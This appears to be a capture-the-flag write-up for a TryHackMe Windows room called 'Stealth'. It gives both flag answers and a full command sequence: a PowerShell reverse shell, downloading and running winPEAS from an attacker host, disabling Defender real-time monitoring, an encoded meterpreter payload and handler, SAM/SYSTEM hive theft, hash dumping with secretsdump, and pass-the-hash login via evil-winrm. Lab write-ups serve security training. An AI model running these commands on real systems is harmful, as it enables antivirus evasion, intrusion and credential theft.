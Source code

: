 # Stealth 

+ What is the content of the user level flag? `THM{1010_EVASION_LOCAL_USER}`
+ What is the content of the root level flag? `THM{101011_ADMIN_ACCESS}`

## Enumeration 
+ Open the browser and create some payload to reverse shell using `powershell` with extention `ps1`
   - The shell will checking the virus code
+ Listen for revershell 
   - After upload `dodol.ps1` and got the revershell checking the file content
   ```powershell
   SHELL> Get-Content passwords.txt
   ### XAMPP Default Passwords ###
   1) MySQL (phpMyAdmin):
      User: root
      Password:
      (means no password!)

   2) FileZilla FTP:

      [ You have to create a new user on the FileZilla Interface ]

   3) Mercury (not in the USB & lite version):

      Postmaster: Postmaster (postmaster@localhost)
      Administrator: Admin (admin@localhost)
      User: newuser
      Password: wampp

   4) WEBDAV:
      User: xampp-dav-unsecure
      Password: ppmax2011
      Attention: WEBDAV is not active since XAMPP Version 1.7.4.
      For activation please comment out the httpd-dav.conf and
      following modules in the httpd.conf
      LoadModule dav_module modules/mod_dav.so
      LoadModule dav_fs_module modules/mod_dav_fs.so
      Please do not forget to refresh the WEBDAV authentification (users and passwords).
   SHELL>

   Invoke-WebRequest -Uri "http://10.4.37.160:83/winPEASany_ofs.exe" -OutFile "C:\Users\evader\Downloads"
   wget "http://10.4.37.160:83/winPEASany_ofs.exe" -outfile "wp.exe"
   Start-Process -FilePath "C:\Users\evader\Downloads\wp.exe"
   ```
+ Check anti Virus `Get-MpComputerStatus`
+ Turn off AV `Set-MpPreference -DisableRealtimeMonitoring $true`
   - Checking the file using Get-ChildItem
   ```powershell
   Get-ChildItem | Where-Object { $_.Name -match '[a-z].txt$' }
   Get-ChildItem -Recurse | Where {$_.Name -match '*flag*$'} | Select Fullname 
   Get-ChildItem -Recurse -Filter "*root*"
   ```

+ Our shell dodol.ps1 is not working, upload the new one `getShell.ps1` so we create the new payload using msfvenom
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o rev.exe -e x64/zutto_dekiru
   ```
   - This will generate `rev.exe` and try execute that using our shell before that listen on our kali using msfconsole
   ```bash
   msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.4.37.160; set lport 1235; exploit"
   ```

## Exploitation
   - After got reverseshell try upload file to target machine
   ```bash
   curl http://10.4.37.160:83/exploit.cs -o exploit.cs
   curl http://10.4.37.160:83/backup.cs -o backup.cs
   ```
   - Compile our code using NET Framework 32 bit
   ```powershell
   C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe exploit.cs -nowarn:1691,618
   C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe backup.cs
   ```

   - Compile our code using NET Framework 64 bit
   ```powershell
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe exploit.cs -nowarn:1691,618
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe backup.cs
   ```
   - Try execute our exploit `.\exploit.exe backup.exe`
   - This will generate `system.bak` and `sam.bak`
   - Download the file using wget 
   ```bash
   wget http://10.10.2.227:8080/system.bak
   wget http://10.10.2.227:8080/sam.bak
   ```

## Privilege Escalation
   - Try to dump the hash file using `impacket-secretdump` from file we download
   ```bash
   ┌──(lodwig㉿kali)-[~/Documents/THM/Stealth]
   └─$ impacket-secretsdump -sam sam.bak -system system.bak local
   Impacket v0.11.0 - Copyright 2023 Fortra

   [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
   [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dfe3378335d43f9764e581b856a662a:::
   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
   evader:1022:aad3b435b51404eeaad3b435b51404ee:09de49072c2f43db1d7d8df21486bc73:::
   [*] Cleaning up...
   ```

   - After got the Administrator hash file `2dfe3378335d43f9764e581b856a662a` Remote to target using `evil-winrm` and the hash 
   ```bash
   ┌──(lodwig㉿kali)-[~/Documents/THM/Stealth]
   └─$ evil-winrm -u Administrator -H 2dfe3378335d43f9764e581b856a662a -i 10.10.2.227                  
   Evil-WinRM shell v3.5                                
   Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
   Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
   Info: Establishing connection to remote endpoint
   *Evil-WinRM* PS C:\Users\Administrator\Documents>
   ```
   - Chek for the flag.txt
   - User Flag Need to delete the log file on `c:\xampp\htdocs\` to activate the URL from decoded base64 
   - Root Flag on the `C:\Users\Administrator\Desktop`





